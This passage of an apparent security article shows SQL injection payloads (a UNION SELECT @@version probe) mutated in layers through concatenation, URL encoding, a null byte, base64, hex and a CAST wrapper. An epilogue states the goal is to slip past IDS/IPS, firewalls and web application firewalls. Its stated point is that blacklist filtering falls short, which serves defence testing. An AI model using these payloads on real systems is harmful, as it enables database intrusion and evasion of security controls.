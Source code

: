 ' uni'+'on%20(se'+'lect%20@@ver'+'sion)%20--

Layer 3: Null byte bypass added as a postfix

' uni'+'on%20(se'+'lect%20@@ver'+'sion)%20--%00

  * **Second example**

Layer 1: Dynamic query execution using concatenations

' uni'+'on (se'+'lect @@ver'+'sion) --

Layer 2: Space filling using url encoded space %20

' uni'+'on%20(se'+'lect%20@@ver'+'sion)%20--

Layer 3: Base 64 encoding

JyB1bmknKydvbiUyMChzZScrJ2xlY3QlMjBAQHZlcicrJ3Npb24pJTIwLS0=

  * **Third example**

Layer 1: Dynamic query execution using concatenations

' uni'+'on (se'+'lect @@ver'+'sion) --

Layer 2: Space filling using url encoded space %20

' uni'+'on%20(se'+'lect%20@@ver'+'sion)%20--

Layer 3: Ascii hex encode

2720756e69272b276f6e253230287365272b276c6563742532304040766572272b2773696f6e292532302d2d

Layer 4: CAST mutation

SET @sqlcommand =  (SELECT CAST(0x2720756e69272b276f6e253230287365272b276c6563742532304040766572272b2773696f6e292532302d2d AS VARCHAR(length))

**Note:** The mutation layers should be applied in such a way so as not to break the SQL injection payload.

## Epilogue ##

Multilayer payload mutation means payload optimization. Multilayer SQL payload mutation also means hiding traces bypassing Intrusion Prevention, Intrusion Detection (IPS/IDS), Firewall and Web Application Firewall (WAF) filters. It also means that black list filtering is not sufficient.



